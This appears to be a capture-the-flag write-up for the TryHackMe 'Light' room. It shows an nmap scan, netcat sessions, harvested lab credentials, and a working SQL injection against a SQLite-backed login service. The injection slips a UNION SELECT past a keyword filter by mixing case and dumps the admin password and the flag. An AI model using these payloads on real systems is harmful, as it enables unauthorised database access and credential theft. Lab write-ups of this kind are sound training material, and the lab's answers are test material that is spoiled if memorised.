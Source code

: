 <Code>

## LIGHT

https://tryhackme.com/r/room/lightroom

### Enumeration
  
┌──(kali㉿kali)-[~/Documents/THM]
└─$ nmap -sV -A -Pn  -p- 10.10.78.225
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 13:27 CET
Nmap scan report for 10.10.78.225
Host is up (0.038s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 61:c5:06:f2:4a:20:5b:cd:09:4d:72:b0:a5:aa:ce:71 (RSA)
|   256 51:e0:5f:fa:81:64:d3:d9:26:24:16:ca:45:94:c2:00 (ECDSA)
|_  256 77:e1:36:3b:95:9d:e0:3e:0a:56:82:b2:9d:4c:fe:1a (ED25519)
1337/tcp open  waste?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     Welcome to the Light database!
|     Please enter your username:
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest: 
|     Welcome to the Light database!
|     Please enter your username: Username not found.
|_    Please enter your username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.94SVN%I=7%D=1/21%Time=678F9806%P=x86_64-pc-linux-gnu%r
SF:(NULL,3B,"Welcome\x20to\x20the\x20Light\x20database!\nPlease\x20enter\x
SF:20your\x20username:\x20")%r(GenericLines,6B,"Welcome\x20to\x20the\x20Li
SF:ght\x20database!\nPlease\x20enter\x20your\x20username:\x20Username\x20n
SF:ot\x20found\.\nPlease\x20enter\x20your\x20username:\x20")%r(GetRequest,
SF:6B,"Welcome\x20to\x20the\x20Light\x20database!\nPlease\x20enter\x20your
SF:\x20username:\x20Username\x20not\x20found\.\nPlease\x20enter\x20your\x2
SF:0username:\x20")%r(HTTPOptions,6B,"Welcome\x20to\x20the\x20Light\x20dat
SF:abase!\nPlease\x20enter\x20your\x20username:\x20Username\x20not\x20foun
SF:d\.\nPlease\x20enter\x20your\x20username:\x20")%r(RTSPRequest,6B,"Welco
SF:me\x20to\x20the\x20Light\x20database!\nPlease\x20enter\x20your\x20usern
SF:ame:\x20Username\x20not\x20found\.\nPlease\x20enter\x20your\x20username
SF::\x20")%r(RPCCheck,3B,"Welcome\x20to\x20the\x20Light\x20database!\nPlea
SF:se\x20enter\x20your\x20username:\x20")%r(DNSVersionBindReqTCP,3B,"Welco
SF:me\x20to\x20the\x20Light\x20database!\nPlease\x20enter\x20your\x20usern
SF:ame:\x20")%r(DNSStatusRequestTCP,3B,"Welcome\x20to\x20the\x20Light\x20d
SF:atabase!\nPlease\x20enter\x20your\x20username:\x20")%r(Help,6B,"Welcome
SF:\x20to\x20the\x20Light\x20database!\nPlease\x20enter\x20your\x20usernam
SF:e:\x20Username\x20not\x20found\.\nPlease\x20enter\x20your\x20username:\
SF:x20")%r(SSLSessionReq,3B,"Welcome\x20to\x20the\x20Light\x20database!\nP
SF:lease\x20enter\x20your\x20username:\x20")%r(TerminalServerCookie,3B,"We
SF:lcome\x20to\x20the\x20Light\x20database!\nPlease\x20enter\x20your\x20us
SF:ername:\x20")%r(TLSSessionReq,3B,"Welcome\x20to\x20the\x20Light\x20data
SF:base!\nPlease\x20enter\x20your\x20username:\x20")%r(Kerberos,3B,"Welcom
SF:e\x20to\x20the\x20Light\x20database!\nPlease\x20enter\x20your\x20userna
SF:me:\x20")%r(SMBProgNeg,3B,"Welcome\x20to\x20the\x20Light\x20database!\n
SF:Please\x20enter\x20your\x20username:\x20")%r(X11Probe,3B,"Welcome\x20to
SF:\x20the\x20Light\x20database!\nPlease\x20enter\x20your\x20username:\x20
SF:")%r(FourOhFourRequest,6B,"Welcome\x20to\x20the\x20Light\x20database!\n
SF:Please\x20enter\x20your\x20username:\x20Username\x20not\x20found\.\nPle
SF:ase\x20enter\x20your\x20username:\x20");


┌──(kali㉿kali)-[~]
└─$ nc 10.10.78.225 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL

### via py script get this users

Found: alice
Password: tF8tj2o94WE4LKC

Found: hazel
Password: EcSuU35WlVipjXG

Found: john
Password: e74tqwRh2oApPo6

Found: michael
Password: 7DV4dwA0g5FacRe

Found: ralph
Password: YO1U9O1m52aJImA

Found: rob
Password: yAn4fPaF2qpCKpR

Found: steve
Password: WObjufHX1foR8d7

### all users and passwords are uselless

## ke is SQL injection but is union and select words are deny

The application also blocks and filters SQL commands such as SELECT or UNION. However, we can bypass this filter by simply randomizing the capitalization of the commands (e.g. SeLeCT or UniOn).

hh there is a word in there I don't like :(
Please enter your username: password
Username not found.
Please enter your username: From
Username not found.
Please enter your username: \x27UNION SELECT
Ahh there is a word in there I don't like :(
Please enter your username: \x27UNION       
Ahh there is a word in there I don't like :(
Please enter your username: select
Ahh there is a word in there I don't like :(
Please enter your username: /*select
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
Please enter your username: smokey'
Error: unrecognized token: "'smokey'' LIMIT 30"
Please enter your username: smokey' OR users like 's%
Error: no such column: users
Please enter your username: smokey' OR users like 's%
Error: no such column: users
Please enter your username: smokey' OR users like 's%
Error: no such column: users
Please enter your username: smokey' OR user like 's%
Error: no such column: user
Please enter your username: smokey' OR password like 's%
Password: vYQ5ngPpw8AdUmL
Please enter your username: smokwk
Username not found.
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: smokey' OR admintable like 's%
Error: no such column: admintable
Please enter your username: select
Ahh there is a word in there I don't like :(
Please enter your username: SeLeCT
Username not found.
Please enter your username: smokey' UniIOn SelEcT name FROM sqlite_master WHERE type='table
Error: near "UniIOn": syntax error
Please enter your username: smokey' uniIOn SelEcT name FROM sqlite_master WHERE type='table
Error: near "uniIOn": syntax error
Please enter your username: 1' uNion SeLeCt sqlite_version() '1
Password: 3.31.1
Please enter your username: 1' uNion SeLeCt name FROM sqlite_master '1
Password: admintable
Please enter your username: 1' uNion SeLeCt username from admintable '1
Password: TryHackMeAdmin
Please enter your username: 1' uNion SeLeCt password from admintable where username = '<ADMIN_USERNAME>
Username not found.
Please enter your username: 1' uNion SeLeCt password from admintable where username = 'TryHackMeAdmin
Password: mamZtAuMlrsEy5bp6q17
Please enter your username: 1' uNion SeLeCt password from admintable '1
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}
Please enter your username: ^C




<\Code>
